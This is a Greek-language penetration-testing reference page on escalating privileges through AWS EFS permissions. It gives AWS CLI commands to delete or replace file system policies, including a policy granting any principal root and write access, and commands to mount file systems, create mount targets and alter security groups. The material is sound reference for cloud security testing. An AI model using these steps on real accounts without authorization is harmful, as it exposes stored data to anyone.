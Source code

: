 # AWS - EFS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EFS

Περισσότερες **πληροφορίες σχετικά με το EFS** στο:

{{#ref}}
../aws-services/aws-efs-enum.md
{{#endref}}

Θυμηθείτε ότι για να συνδέσετε ένα EFS πρέπει να βρίσκεστε σε ένα υποδίκτυο όπου το EFS είναι εκτεθειμένο και να έχετε πρόσβαση σε αυτό (ομάδες ασφαλείας). Αν αυτό συμβαίνει, από προεπιλογή, θα μπορείτε πάντα να το συνδέσετε, ωστόσο, αν είναι προστατευμένο από πολιτικές IAM, χρειάζεστε τις επιπλέον άδειες που αναφέρονται εδώ για να έχετε πρόσβαση σε αυτό.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Με οποιαδήποτε από αυτές τις άδειες, ένας επιτιθέμενος μπορεί να **αλλάξει την πολιτική του συστήματος αρχείων** για να **σας δώσει πρόσβαση** σε αυτό, ή απλώς να **το διαγράψει** ώστε να παραχωρηθεί η **προεπιλεγμένη πρόσβαση**.

Για να διαγράψετε την πολιτική:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Για να το αλλάξετε:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Με αυτή την άδεια, ένας επιτιθέμενος θα είναι σε θέση να **συνδέσει το EFS**. Αν η άδεια εγγραφής δεν παρέχεται από προεπιλογή σε όλους όσους μπορούν να συνδέσουν το EFS, θα έχει μόνο **πρόσβαση ανάγνωσης**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Οι επιπλέον άδειες `elasticfilesystem:ClientRootAccess` και `elasticfilesystem:ClientWrite` μπορούν να χρησιμοποιηθούν για να **γράψετε** μέσα στο σύστημα αρχείων αφού έχει προσαρτηθεί και να **έχετε πρόσβαση** σε αυτό το σύστημα αρχείων **ως root**.

**Πιθανές Επιπτώσεις:** Έμμεσο privesc εντοπίζοντας ευαίσθητες πληροφορίες στο σύστημα αρχείων.

### `elasticfilesystem:CreateMountTarget`

Αν είστε επιτιθέμενος μέσα σε ένα **υποδίκτυο** όπου **δεν υπάρχει στόχος προσαρτήσεως** του EFS. Μπορείτε απλά να **δημιουργήσετε έναν στο υποδίκτυό σας** με αυτή την άδεια:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Πιθανές Επιπτώσεις:** Έμμεσος privesc εντοπίζοντας ευαίσθητες πληροφορίες στο σύστημα αρχείων.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Σε ένα σενάριο όπου ένας επιτιθέμενος διαπιστώνει ότι το EFS έχει σημείο προσάρτησης στο υποδίκτυό του αλλά **κανένας κανόνας ασφαλείας δεν επιτρέπει την κίνηση**, θα μπορούσε απλά να **αλλάξει αυτό τροποποιώντας τις επιλεγμένες ομάδες ασφαλείας**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Πιθανές Επιπτώσεις:** Έμμεση εκμετάλλευση δικαιωμάτων μέσω της εντοπισμού ευαίσθητων πληροφοριών στο σύστημα αρχείων.

{{#include ../../../banners/hacktricks-training.md}}

